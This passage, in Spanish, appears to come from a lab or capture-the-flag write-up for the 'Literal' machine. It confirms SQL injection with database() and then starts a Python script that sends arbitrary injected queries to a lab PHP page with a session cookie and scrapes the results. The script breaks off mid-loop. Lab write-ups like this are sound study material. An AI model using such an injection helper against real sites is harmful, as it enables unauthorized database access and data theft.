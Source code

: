 Por ejemplo con <span style="color:blue;">database()</span> nos deberia mostrar el nombre de la base de datos actualmente en uso.

![](/assets/img/literal/db.png)

Para ir dumpeando los datos mas comodos voy a crear un script de python en el cual pueda poner la query y que me muestre los resultados por consola.

```python
#!/usr/bin/python3

import string, pdb, requests, sys, signal, re

def ctrl_c(sig, frame):

    print("\n\n[!] Saliendo.\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, ctrl_c)

# variables
url = 'http://blog.literal.hmv/next_projects_to_do.php'
Burp = {'http':'http://127.0.0.1:8080'}

if len(sys.argv) < 2:
    print("\nUso:\n\tpython3 %s cookie" % sys.argv[0])
    sys.exit(1)

def makeRequest(query):
    
    post_data = {
            "sentence-query":"{}".format(query)
            }

    cookies = {
            "PHPSESSID":sys.argv[1]
            }

    r = requests.post(url, data=post_data, cookies=cookies)
    
    data = re.findall('<td>(.*?)</td><td>(.*?)</td><td>(.*?)</td><td>(.*?)</td><td>(.*?)</td>', r.text)

    return data

def makeInjection():

    while True:

        query = input('> ')
        
        data = makeRequest(query)
        
```